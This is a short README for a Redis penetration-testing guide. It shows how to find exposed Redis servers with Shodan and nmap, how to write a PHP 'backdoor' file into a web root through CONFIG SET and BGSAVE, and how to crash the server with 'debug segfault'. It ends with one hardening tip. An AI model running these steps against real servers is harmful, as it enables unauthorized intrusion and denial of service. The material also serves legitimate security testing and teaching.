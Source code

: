 # Redisturb
## *Redis.io* Penetration Testing 
![GitHub Logo](/Redis_Logo.png)
##### Intro

*Redis.io* is an open source in-memory database developed to store volatile data like messages, cache, cookie, etc.

I beg you to read [Redis.io/security](http://redis.io/topics/security) if you have any intention to setup *Redis.io* in production mode.

##### Discover misconfigured *Redis.io* using *Shodan* and *Nmap*

*Shodan* give us a powerful tool to find several misconfigured servers.

` { product:"Redis key-value store", port:"6379" } `

*Nmap* is useful to quickly find open ports.

`nmap -p 6379 -n --open 199.233.232.0/24`

##### Upload malicious file
Requirement : access to CONFIG and BGSAVE or SAVE
```
localhost:6379> config set dir /var/www/html
OK
localhost:6379> config get dir
1) "dir"
2) "/var/www/html"
- - - - -
localhost:6379> config set dbfilename backdoor.php
OK
localhost:6379> config get dbfilename
1) "dbfilename"
2) "backdoor.php"
- - - - -
localhost:6379> set cmd "<?php phpinfo(); ?>"
OK
localhost:6379> bgsave
Background saving started
- - - - -
-rw-r--r-- 1 redis redis 45 Sep 19 17:01 backdoor.php
```

##### Crash

```
localhost:6379> debug segfault
(9.69s)
not connected> 
```

#### Security Best Practices

##### Only bind *Redis.io* to Loopback

Add to **redis.conf** :

`bind 127.0.0.1`

Allow access only from loopback (implied that the application that needs *Redis.io* running on the same host).
